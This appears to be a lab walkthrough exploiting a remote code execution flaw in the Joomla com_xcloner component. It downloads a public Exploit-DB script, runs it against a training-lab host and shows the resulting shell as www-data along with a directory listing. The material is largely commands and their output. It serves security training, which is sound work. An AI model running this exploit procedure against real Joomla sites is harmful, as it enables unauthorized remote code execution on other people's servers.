







#### 1. Joomla com_xcloner Component

- A version of Joomla com_xcloner Component is vulnerable to remote code execution attack. Your task is to find and exploit this vulnerability.
- The following username and password may be used to explore the application and create regular users if required to exploit authenticated access vulnerabilities:

```
User: admin        
Password: password
```

----













```sh
dev@box:~$ wget https://www.exploit-db.com/download/16246
--2018-12-17 19:30:22--  https://www.exploit-db.com/download/16246
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/txt]
Saving to: ‘16246’

16246                                                  [ <=>                                                                                                             ]  12.19K  --.-KB/s    in 0s

2018-12-17 19:30:22 (152 MB/s) - ‘16246’ saved [12485]

dev@box:~$
dev@box:~$ mv 16246 16246.py
```

```sh
dev@box:~$ python 16246.py

	| ----------------------------------------------------------------------------- |
	| Joomla component (com_xcloner-backupandrestore) remote code execution explo!t |
	| by mr_me - net-ninja.net ---------------------------------------------------- |

Usage: ./16246.py [<options>] -t [target] -d [directory]
Example: ./16246.py -p localhost:8080 -t 192.168.1.7 -d /joomla/

Options:
  -h, --help  show this help message and exit
  -p PROXY    HTTP Proxy <server:port>
  -t TARGET   The Target server <server:port>
  -d DIRPATH  Directory path to the CMS
dev@box:~$
```

```sh
dev@box:~$ python 16246.py -t vhyz55j9ss8917yr83zsng0ma.public1.attackdefenselabs.com:80 -d /joomla/

	| ----------------------------------------------------------------------------- |
	| Joomla component (com_xcloner-backupandrestore) remote code execution explo!t |
	| by mr_me - net-ninja.net ---------------------------------------------------- |

(+) Targeting http://vhyz55j9ss8917yr83zsng0ma.public1.attackdefenselabs.com:80/joomla/
(!) Exploit working!
(+) Droping to remote console (q for quit)

dev@vhyz55j9ss8917yr83zsng0ma.public1.attackdefenselabs.com:80# id
 uid=33(www-data) gid=33(www-data) groups=33(www-data)

dev@vhyz55j9ss8917yr83zsng0ma.public1.attackdefenselabs.com:80# ls -l
 total 104
-rwxrwxrwx  1 root     root     17816 Dec 12  2009 LICENSE.txt
-rwxrwxrwx  1 root     root      4493 Jan  9  2011 README.txt
drwxrwxrwx  1 root     root      4096 Jan 11  2011 administrator
drwxrwxrwx  2 root     root      4096 Jan 11  2011 cache
drwxrwxrwx  1 root     root      4096 Aug 20 15:32 components
-rwxrwxrwx  1 www-data www-data  1908 Dec 18 00:32 configuration.php
-rwxrwxrwx  1 root     root      2425 Jan  9  2011 htaccess.txt
drwxrwxrwx  4 root     root      4096 Jan 11  2011 images
drwxrwxrwx  2 root     root      4096 Jan 11  2011 includes
-rwxrwxrwx  1 root     root      1394 Jan  9  2011 index.php
-rwxrwxrwx  1 root     root      1273 Jan 11  2011 joomla.xml
drwxrwxrwx  4 root     root      4096 Jan 11  2011 language
drwxrwxrwx  6 root     root      4096 Jan 11  2011 libraries
drwxrwxrwx  2 root     root      4096 Jan 11  2011 logs
drwxrwxrwx  8 root     root      4096 Jan 11  2011 media
drwxrwxrwx 25 root     root      4096 Jan 11  2011 modules
drwxrwxrwx 10 root     root      4096 Jan 11  2011 plugins
-rwxrwxrwx  1 root     root       301 Aug 12  2009 robots.txt
drwxrwxrwx  6 root     root      4096 Jan 11  2011 templates
drwxrwxrwx  2 root     root      4096 Jan 11  2011 tmp

dev@vhyz55j9ss8917yr83zsng0ma.public1.attackdefenselabs.com:80#
```



----

EOF